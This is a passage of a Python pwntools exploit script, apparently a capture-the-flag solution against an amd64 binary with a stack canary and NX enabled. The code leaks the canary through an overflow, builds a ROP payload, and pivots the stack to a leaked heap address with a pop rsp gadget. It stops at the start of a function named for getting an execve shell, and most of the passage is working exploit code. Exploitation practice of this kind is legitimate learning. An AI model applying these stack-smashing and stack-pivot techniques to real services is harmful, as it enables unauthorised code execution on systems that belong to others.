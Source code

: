 ```python
    # Found via leaking GOT entries and querying libc.rip. It was unintended
    # to find a result but the author missed this site's DB.
    libc = ELF("./libc-2.32-x86_64.so")

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
break main
continue
'''.format(**locals())

# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

def do_rop(io, chain):
    io.sendline((b"A"*40)+b"\x01")
    io.recvuntil(b"A"*40)
    cookie = int.from_bytes(io.recv()[:8], "little")
    cookie &= 0xffffffffffffff00 # zero out lowest byte
    log.info("-> cookie: " + hex(cookie))
    io.clean()

    p = pack(1) + pack(2) + pack(3) # r13-15, ROP next
    p += chain
    if len(p) > 512:
        raise Exception("paylod too big! Max 512, was: {}".format(len(p)))

    io.sendline(p)
    io.recvuntil("tag id: ")
    heap_addr = int(io.recvline()[:-1])

    p = b"A"*72
    p += pack(cookie)
    p += pack(heap_addr & 0xfffffffffffff000) # rbp
    p += pack(pop_rsp)   # pop rsp; pop r13; pop r14; pop r15; ret;
    p += pack(heap_addr) # pop to esp
    io.sendline(p)

    return heap_addr

def do_execve_shell():
```